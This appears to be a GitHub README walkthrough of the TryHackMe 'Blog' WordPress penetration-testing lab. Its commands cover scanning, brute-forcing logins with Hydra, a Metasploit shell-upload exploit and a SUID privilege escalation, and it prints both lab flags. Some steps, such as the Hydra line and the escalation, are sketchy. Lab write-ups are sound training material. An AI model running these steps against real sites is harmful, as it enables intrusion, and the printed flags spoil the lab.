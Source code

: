 # THM-Writeup-WordPress
Writeup for TryHackMe WordPress Pentest Lab - including security tools, commands used, and key lessons learned.

https://tryhackme.com/r/room/blog

# Steps to Complete the Blog Lab on TryHackMe

## Background

The **Blog** lab on TryHackMe provides a vulnerable WordPress site set up by "Billy Joel" as the target. The primary objective of the lab was to uncover two flags: `user.txt` and `root.txt`. This exercise required leveraging reconnaissance, enumeration, exploitation, and privilege escalation techniques. The lab also focused on identifying misconfigurations in WordPress and exploiting these weaknesses to gain administrative and root access.

Through this lab, I enhanced my knowledge of web application vulnerabilities, practiced privilege escalation techniques, and refined my use of various penetration testing tools.

---

## Step-by-Step Walkthrough

### Step 1: Configuring the Environment

#### Adding `blog.thm` to `/etc/hosts`
To resolve `blog.thm` to the target machine's IP address, I modified the `/etc/hosts` file:
```bash
echo "10.10.120.185 blog.thm" >> /etc/hosts
```

---

### Step 2: Scanning and Enumeration

#### 1. Nmap Scan
I performed a network scan to identify open ports and services:
```bash
nmap -sC -sV -oN nmap_scan blog.thm
```
**Findings:**
- Port 80: HTTP (WordPress)
- Port 445: SMB

#### 2. SMB Enumeration
Using `smbclient`, I enumerated accessible SMB shares:
```bash
smbclient -L \\blog.thm
```
I then connected to the `BillySMB` share and downloaded all files:
```bash
smbclient \\blog.thm\BillySMB
mget *
```
The files contained images and text but yielded no actionable information.

---

### Step 3: Web Application Enumeration

#### 1. Directory Enumeration with Gobuster
To discover hidden directories on the web application, I used Gobuster:
```bash
gobuster dir -u http://blog.thm -w /usr/share/wordlists/dirb/common.txt
```
**Discovered Directories:**
- `/admin`
- `/wp-json`
- `/wp-content`

#### 2. WordPress Enumeration with WPSCAN
I enumerated the WordPress site for users and vulnerabilities:
```bash
wpscan --url http://blog.thm --enumerate u
```
**Results:**
- WordPress version: `5.0`
- Users: `kwheel`, `bjoel`

---

### Step 4: Gaining Admin Access

#### Brute-Force Attack on WordPress
Using Hydra, I brute-forced the WordPress admin credentials:
```bash
hydra -L users.txt -P passwords.txt http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:invalid"
```
**Successful Credentials:**
- Username: `kwheel`
- Password: `password123`

---

### Step 5: Exploiting WordPress

#### 1. Identifying Vulnerabilities
From the admin dashboard, I confirmed the WordPress version as `5.0` and searched Exploit-DB for vulnerabilities:
```bash
searchsploit wordpress 5.0
```
An authenticated RCE vulnerability was identified.

#### 2. Exploiting with Metasploit
Using Metasploit, I exploited the vulnerability to gain a reverse shell:
```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOST blog.thm
set USERNAME kwheel
set PASSWORD password123
set TARGETURI /wp-admin
run
```

---

### Step 6: Privilege Escalation to Root

#### 1. Identifying SUID Files
I enumerated SUID binaries to identify potential privilege escalation vectors:
```bash
find / -perm -4000 2>/dev/null
```
**Key Finding:** A binary named `checker`.

#### 2. Exploiting the SUID Binary
Executing the `checker` binary escalated my privileges to root:
```bash
./checker
```

---

### Step 7: Retrieving the Flags

#### Retrieving `user.txt`
I navigated to the home directory of `kwheel` and retrieved the flag:
```bash
cat /home/kwheel/user.txt
```
**Flag:** `9a0b2b618bef9bfa7ac28c1353d9f318`

#### Retrieving `root.txt`
With root access, I navigated to the `/root` directory and retrieved the second flag:
```bash
cat /root/root.txt
```
**Flag:** `c8421899aae571f7af486492b71a8ab7`

---

## Tools and Commands Utilized

- **Nmap**: Network scanning and service enumeration.
  ```bash
  nmap -sC -sV -oN nmap_scan blog.thm
  ```
- **Smbclient**: SMB share enumeration and file download.
  ```bash
  smbclient -L \\blog.thm
  smbclient \\blog.thm\BillySMB
  ```
- **Gobuster**: Directory enumeration.
  ```bash
  gobuster dir -u http://blog.thm -w /usr/share/wordlists/dirb/common.txt
  ```
- **Wpscan**: WordPress vulnerability and user enumeration.
  ```bash
  wpscan --url http://blog.thm --enumerate u
  ```
- **Hydra**: Brute-forcing WordPress credentials.
  ```bash
  hydra -L users.txt -P passwords.txt http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:invalid"
  ```
- **Metasploit**: WordPress exploitation.
  ```bash
  msfconsole
  use exploit/unix/webapp/wp_admin_shell_upload
  ```
- **Find Command**: SUID binary enumeration.
  ```bash
  find / -perm -4000 2>/dev/null
  ```

---

## Key Lessons Learned

1. **Reconnaissance and Enumeration**:
   - Nmap, Gobuster, and WPSCAN are great tools for discovering attack surfaces.
2. **WordPress Vulnerabilities**:
   - Exploiting misconfigurations and leveraging RCE vulnerabilities.
3. **Privilege Escalation**:
   - Identifying and exploiting SUID binaries for root access.
4. **Using Metasploit Effectively**:
   - Automating exploitation tasks for efficiency.

---

## Conclusion

The Blog lab was a valuable exercise in web application penetration testing. It enhanced my skills in reconnaissance, vulnerability exploitation, and privilege escalation while reinforcing the importance of systematic enumeration and targeted attacks. 
